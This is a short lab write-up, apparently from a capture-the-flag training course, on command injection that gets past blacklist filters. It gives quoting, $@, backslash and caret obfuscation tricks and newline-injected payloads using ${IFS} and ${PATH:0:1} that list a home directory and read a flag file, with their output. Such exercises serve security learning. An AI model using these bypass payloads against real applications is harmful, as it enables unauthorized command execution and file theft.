 # Bypassing Blacklisted Commands

## Commands Blacklist

A basic command blacklist filter in PHP would look like the following:

$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}

## Linux & Windows

Certain characters within our command that are usually ignored by command shells like Bash or PowerShell :

w'h'o'am'i
w"h"o"am"i

## Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the bash shell would ignore them :
who$@ami
w\ho\am\i

## Windows Only

who^ami

## LAB

127.0.0.1%0ac'at${IFS}/home/1nj3c70r/flag.txt

Invalid input


127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r

/home/1nj3c70r:
total 12
drwxr-xr-x 1 1nj3c70r 1nj3c70r 4096 Jul 16  2021 .
drwxr-xr-x 1 root     root     4096 Jul 16  2021 ..
-rw-r--r-- 1 1nj3c70r 1nj3c70r   32 Jul 16  2021 flag.txt

127.0.0.1%0ac'at${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt

--> Failed

127.0.0.1%0ac"a"t"${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms

127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
HTB{b451c_f1l73r5_w0n7_570p_m3}